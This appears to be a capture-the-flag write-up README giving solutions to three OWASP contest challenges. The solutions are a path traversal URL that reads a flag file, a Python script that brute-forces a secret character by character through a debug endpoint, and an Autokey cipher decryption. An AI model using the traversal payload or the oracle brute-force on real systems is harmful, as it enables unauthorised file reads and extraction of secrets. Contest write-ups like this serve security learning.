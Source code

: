 # owasp-final-ctf-writeups
### Valentin Buza

## Silent Speaker

Path traversal using the 'file' argument.

Flag is at ```https://141.85.224.109/index.php?file=../../../../home/ctf/flag```.

## Flag Helper

Use debug messages to brute force one character at a time.

```
import requests
import string

def oracle(s):
	r = requests.get('http://141.85.224.107:31337/debug', params={'substring': s}).content
	return r == 'TRUE'

flag = 'OWASPCTF{'

done = False
while not done:
	done = True
	for c in string.printable:
		if oracle(flag+c):
			flag += c
			print flag
			done = False
```

## Latin

Use AutoKey Cipher.

```
from pycipher import Autokey

ct = 'jegwcgkjdagarwfqzithglvjgimmfmiivtrcysmigizmaazxccthrvjgjzkwvrsioekiahfronuvtikxjugormkmiwceftwpvolseqrx'

# find clue #1, 'VIGENERE'
print Autokey('OWASPCTF').decipher(ct)

# find clue #2, 'OWASPCTFVIGENERE'
print Autokey('VIGENEREISAWESOME').decipher(ct)

# find message
print Autokey('OWASPCTF'+'VIGENERE'*12).decipher(ct)

```
